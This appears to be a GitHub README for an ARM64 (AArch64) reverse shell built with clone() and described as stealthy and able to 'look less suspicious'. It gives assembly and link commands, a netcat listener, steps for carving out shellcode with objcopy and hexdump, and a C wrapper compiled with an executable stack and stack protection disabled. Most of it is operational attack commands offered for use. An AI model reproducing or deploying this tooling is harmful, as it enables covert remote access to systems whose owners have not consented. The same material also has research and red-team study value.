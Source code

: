 # ARM Reverse Shell + `clone()` (similar to `fork()`)
ARM AARCH64 Reverse Shell.
![image](https://github.com/0xXyc/ARM-Reverse-Shell/assets/42036798/ed56e21b-a27d-40a6-80c7-c14df6705c70)

## Capabilities
A small, stealthy, ARM64 reverse shell that utilizes `clone()`, similar to `fork()`, in order to spawn a child process and run in the background. Ultimately to look less suspicious.

# Compiling 🛠️
## Linux/AARCH64 as a guest OS on a MAC or other ARM-based device
`as arm-revshell.s -o arm-revshell+clone.o && ld -N arm-revshell+clone.o -o arm-revshell`

### Begin a Netcat Listener 
`nc -lnvp 1337`

### Execute

Then, run `./arm-revshell+clone` to execute.

## x86-64 host OS, but you want to run/compile for AARCH64
`aarch-linux-gnu-as arm-revshell+clone.s -o arm-revshell+clone.o && aarch-linux-gnu-ld -N arm-revshell+clone.o -o arm-revshell+clone`

### Begin a Netcat Listener
`nc -lnvp 1337`

### Execute
Then, run `qemu-aarch64 ./arm-revshell+clone` to execute.`

# ARM-Shellcode 🐚
## Utilizing the Shellcode "Wrapper"
This is to show you that we can achieve the same cyber result, just in a different executable format. It also goes to show how easily it is to "fit" shellcode into places.

**First, we must use `objcopy` to save the binary object to a `.bin` file so we can convert it into an easily copiable format:**
`objcopy -O binary arm-revshell+clone arm-revshell+clone.bin`

**Then, we need to utilize `hexdump` to "carve" out the shellcode from the binary object:**
`hexdump -v -e '"\\""x" 1/1 "%02x" ""' arm-revshell+clone.bin > shellcode.txt`

Lastly, we need to copy the contents of `shellcode.txt` into the `shellcode[]` buffer, within the `shellcode-exec.c` file.

### Compile the "Wrapper"
`gcc shellcode-exec.c -o shellcode-exec -z execstack -fno-stack-protector`

## Reverse Shell Time!!!
We can now easily call our shellcode within a C program.

**Start a Netcat Listener:**
`nc -lnvp 1337`

**Execute the program:**
`./shellcode-exec`

**CONGRATS, SHELLCODE EXECUTED! ENJOY!**


